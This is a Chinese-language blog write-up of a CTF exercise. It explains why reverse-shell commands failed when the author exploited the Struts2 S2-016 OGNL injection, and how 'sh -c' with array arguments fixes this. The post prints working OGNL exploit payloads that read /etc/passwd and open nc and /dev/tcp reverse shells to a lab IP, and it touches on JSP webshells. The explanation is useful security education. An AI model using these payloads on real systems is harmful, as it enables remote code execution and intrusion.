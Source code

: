 ```yaml
---
title: 记一次漏洞利用反弹Shell出现的问题及原因
date: 2018-06-11 19:53:25
categories: Web
tags:
description:
---
```


开始是做一道题目，后来发现是S2-016漏洞。于是在网上找了Poc去使用，在使用的时候想直接反弹shell，发现无法去执行对应的命令。于是好奇心的驱使开始探究。


<!-- more -->
<br>
# 问题描述
在执行下面Poc时，会返回一个页面供下载。
如果执行正常，页面中会带有回显值。
如果代码非正常执行或者执行失败，页面内容为空。

根据这样的现象，去执行了对应的代码
```
// POC关键代码
new java.lang.ProcessBuilder(new java.lang.String[]{'nc','10.128.2.186','7777'})).start() // 监听端口已连接上
new java.lang.ProcessBuilder(new java.lang.String[]{'nc','-e','/bin/bash','10.128.2.186','7777'})).start() // 返回空页面
```

发现无法利用`nc -e`参数，所以采用了别的方法继续反弹shell。
```
new java.lang.ProcessBuilder(new java.lang.String[]{'nc','10.128.2.186','7777','|/bin/bash|','nc','10.128.2.186','7778'})).start()
```

发现7777端口能监听到，但是之后的7778没有反应。在不断的测验下，发现当使用链接操作符(`| && `)或者输入输出重定向符号(`>> >`)等等便会出现问题。

**正常执行**
![normal](normal.png)


**使用管道符后**
![notnormal](notnormal.png)


那么为什么带上这些特殊符号就会出问题呢？原因就在**Java执行系统命令的函数上**

<br>
# 原因分析
## Java执行系统命令时连接操作符等等无法使用

`java.lang.ProcessBuilder`与`Runtime.getRuntime().exec()`都可以执行系统命令。
找到的Poc也是调用了`java.lang.ProcessBuilder`去执行系统命令的。

```
// Poc
${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'cat','/etc/passwd'})).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#matt.getWriter().println(#e),#matt.getWriter().flush(),#matt.getWriter().close()}
```

寻找了它们的资料，得到

>本质上来讲，Runtime.exec()的command参数只是一个可运行的命令或者脚本，并不等效于Shell解器或者Cmd.exe,如果你想进行输入输出重定向，pipeline等操作，则必须通过程序来实现。不能直接在command参数中做。(ProcessBuilder类似)

也就是说不能把利用这些函数运行命令看的那么智能。所以便有一个解决办法，就是利用`sh -c`或`/bin/bash -c`等命令去运行后面的命令。(`-c`参数是利用`bash 或 sh`来执行后面所跟着的命令)

例如执行命令`sh -c id && pwd`就等同于利用java命令函数先去执行`sh -c`,又利用`sh`来运行`id && pwd`。
便解决了问题。

最后Poc可以写成
```
?redirect:${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'sh','-c','nc 10.128.2.186 7777 |/bin/bash|nc 10.128.2.186 7778'})).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#matt.getWriter().println(#e),#matt.getWriter().flush(),#matt.getWriter().close()}

```
反弹shell成功!!!

<br>
## 为什么要按照数组去传递命令参数
[在 Runtime.getRuntime().exec(String cmd) 中執行任意shell命令的幾種方法](https://hk.saowen.com/a/ec168de38b5cd5ada1912a0ed7fbd4e883daccc84cfe54aa47123fc40c9da117)文章又深入引出了另一个问题。

起初这个问题是在我测试中上传了WebShell，利用WebShell的命令执行同样也无法执行这些命令，便猜测是否是执行命令函数的问题。
同时在上面我们明明可以直接用`sh -c`来运行命令，为什么还要以数组的形式来传递命令运行，直接传入字符串运行不就好了吗？
```
// 数组形式
new java.lang.String[]{'sh','-c','nc 10.128.2.186 7777 |/bin/bash|nc 10.128.2.186 7778'}
// 字符形式
'sh -c nc 10.128.2.186 7777 |/bin/bash|nc 10.128.2.186 7778'
```

原因是当只传入一个字符串时，`Runtime.getRuntime().exec()`函数会根据分隔符(`空格、\t、\n、\r、\f`)来自动分割。那么便有可能导致字符串参数被错误分割，导致shell命令执行失败。
例如传入`sh -c id && pwd`，最后会被分割为`sh` `-c` `id` `&&` `pwd`。实际运行后，会发现只有id被执行了。
而我们直接传入数组，则会按数组顺序来，最后分割为`sh` `-c` `id && pwd`。会把`id && pwd`当作一个完整的参数，便可以正常执行。



<br>
这边需要注意，利用以上方法执行系统命令也会存在问题。例如执行`bash -i >& /dev/tcp/10.128.2.186/9999 0>&1`。


<br>
# 总结
Java中某些Poc执行系统函数时，传入的参数中带有特殊符号无法执行，先观察执行系统命令的函数是什么，如果是利用`ProcessBuilder`，或者`Runtime.getRuntime().exec()`，那么可以传入一个数组，利用`bash -c`或`sh -c`，来执行后面的命令。
```
// Runtime.getRuntime().exec()
Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", command});

// ProcessBuilder
new java.lang.ProcessBuilder(new java.lang.String[]{'sh', '-c', command})).start()
```

某些`jsp`的WebShell执行系统命令无法带有管道符等，说明是WebShell中执行系统命令的函数写法可能存在问题。
```
// 正确写法
Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", command});
```





<br>
# 参照
[在 Runtime.getRuntime().exec(String cmd) 中執行任意shell命令的幾種方法](https://hk.saowen.com/a/ec168de38b5cd5ada1912a0ed7fbd4e883daccc84cfe54aa47123fc40c9da117)
[java Runtime.exec()执行shell/cmd命令：常见的几种陷阱与一种完善实现](https://www.jianshu.com/p/af4b3264bc5d)
